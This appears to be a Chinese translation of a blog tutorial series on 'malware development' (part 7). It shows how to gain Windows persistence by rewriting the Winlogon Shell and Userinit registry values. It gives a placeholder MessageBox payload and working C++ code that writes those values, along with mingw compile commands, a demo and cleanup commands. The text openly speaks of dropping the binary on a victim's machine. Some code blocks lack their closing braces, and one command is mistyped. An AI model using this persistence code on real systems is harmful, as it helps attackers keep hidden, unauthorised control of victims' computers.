\newpage
\subsection{恶意软件开发：持久化（第 7 部分）——Winlogon（简单的 C++ 示例）}

{width="80%"}

今天我将写关于自我研究另一个持久化技巧的结果：Winlogon 注册表项。

### winlogon

Winlogon 进程负责用户的登录与注销、启动与关机以及锁定屏幕。

恶意软件的作者可以修改 Winlogon 进程所使用的注册表项来实现持久化。

`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell`

`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`

不过，实施这个技巧需要本地管理员权限。

### 实战示例

首先，创建我们的恶意应用程序（`hack.cpp`）：

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE 
hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;

```

如你所见，和往常一样，它只是一个弹出「meow」消息的程序。

我们来编译它：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

生成的 `hack.exe` 需要被投放到受害者的机器上。

如果对 Shell 注册表项的修改中包含一个恶意应用，那么在 Windows 登录期间，`explorer.exe` 和 `hack.exe` 都会被启动。

这可以立即用下面的脚本完成：

```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // shell
  // const char* sh = "explorer.exe,
  // Z:\\2022-06-12-malware-pers-7\\hack.exe";
  const char* sh = "explorer.exe,hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
  // create new registry key

  // reg add 
  // "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows
  // NT\CurrentVersion\Winlogon" 
  // /v "Shell" /t REG_SZ /d "explorer.exe,..." /f
  RegSetValueEx(hkey, (LPCSTR)"Shell", 0, REG_SZ, 
  (unsigned char*)sh, strlen(sh));
  RegCloseKey(hkey);
  }

  return 0;

```

如果这个注册表项中包含一个恶意应用，那么在 Windows 登录期间，`userinit.exe` 和 `hack.exe` 都会被启动：

```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // userinit
  const char* ui = "C:\\Windows\\System32\\userinit.exe,
  Z:\\2022-06-12-malware-pers-7\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
  // create new registry key

  // reg add 
  // "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows
  // NT\CurrentVersion\Winlogon" 
  // /v "Shell" /t REG_SZ /d "explorer.exe,..." /f
  RegSetValueEx(hkey, (LPCSTR)"Userinit", 0, 
  REG_SZ, (unsigned char*)ui, strlen(ui));
  RegCloseKey(hkey);
  }

  return 0;

```

那么，编译负责持久化的程序：

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

### 演示

来看看一切的实际运行。

```powershell
req query \
"HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" \
/s
```

{width="80%"}

把恶意应用复制到 `C:\Windows\System32\`。

```powershell
.\pers.exe
```

{width="80%"}

然后，注销并重新登录：

{width="80%"}

按照我们恶意程序的逻辑，「meow-meow」弹了出来：

{width="80%"}

{width="80%"}

我们用 Process Hacker 2 来检查进程属性：

{width="80%"}

然后，清理：

```powershell
reg add \
"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows 
NT\CurrentVersion\Winlogon" \ 
/v "Shell" /t REG_SZ /d "explorer.exe" /f
```

{width="80%"}

那么另一个项 Userinit 呢？

```powershell
.\pers.exe
```

{width="80%"}

注销并重新登录：

{width="80%"}

{width="80%"}

然后，为了保证实验的纯粹性，用 Process Hacker 2 检查 `hack.exe` 的属性：

{width="80%"}

如你所见，父进程是 `winlogon.exe`。

清理：

```powershell
reg add \
"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows 
NT\CurrentVersion\Winlogon" \
/v "Userinit" /t REG_SZ /d \
"C:\Windows\System32\userinit.exe" /f
```

{width="80%"}

如你所见，在这两种情况下，恶意软件都会在 Windows 身份验证期间被执行。

例如，如果我们按照下面的逻辑更新注册表项：

```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // shell
  const char* sh = "explorer.exe,
  Z:\\2022-06-12-malware-pers-7\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
  // create new registry key

  // reg add 
  // "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows
  // NT\CurrentVersion\Winlogon" /v 
  // "Shell" /t REG_SZ /d "explorer.exe,..." /f
  RegSetValueEx(hkey, (LPCSTR)"Shell", 0, 
  REG_SZ, (unsigned char*)sh, strlen(sh));
  RegCloseKey(hkey);
  }

  return 0;

```

也就是说，我们的恶意软件位于路径 `Z:\...\hack.exe`，而不是 `C:\Windows\System32\hack.exe`。

运行：

```powershell
.\pers.exe 
req query "HKLM\Software\Microsoft\Windows 
NT\CurrentVersion\Winlogon" /s
```

